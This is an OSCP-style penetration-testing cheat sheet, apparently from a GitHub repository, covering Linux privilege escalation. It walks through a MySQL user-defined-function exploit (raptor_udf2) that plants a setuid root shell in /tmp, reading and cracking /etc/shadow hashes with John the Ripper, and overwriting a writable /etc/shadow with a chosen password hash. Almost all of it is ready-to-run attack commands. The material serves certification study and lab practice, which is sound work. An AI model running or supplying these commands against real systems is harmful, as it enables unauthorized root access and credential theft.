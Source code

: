 ### oscp-cheatsheet

## Linux Privilege Escalation

# Serice Exploit - MySQL UDF Exploit

https://www.exploit-db.com/exploits/1518

ps aux | grep mysql
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root
use mysql;
Select * from mysql.func;  #to list the user defined functions
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p

# Weak File Permission - /etc/shadow Readable

ls -la /etc/shadow            #to view the permission of /etc/shadow
cat /etc/shadow               #to view the shadow file
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
su root                       #login with cracked password 'password123'
whoami;id;pwd

# weak File Permission - /etc/shadow Writable

ls -la /etc/shadow
mkpasswd -m sha-512 bala123
nano /etc/shadow
su root                           #login with custom password 'bala123123'
whoami;id;pwd
